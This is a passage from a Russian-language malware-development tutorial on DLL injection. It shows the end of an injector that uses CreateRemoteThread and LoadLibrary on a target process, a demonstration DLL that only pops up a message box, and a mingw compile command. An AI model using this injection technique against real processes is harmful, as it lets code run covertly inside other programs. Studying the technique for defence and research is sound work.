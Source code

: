 ```cpp
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я создаю простую DLL с окном сообщений `meow from evil.dll!` (`evil.c`):

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### демонстрация 2

Давайте продемонстрируем нашу инъекцию.     

Компилируем:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```
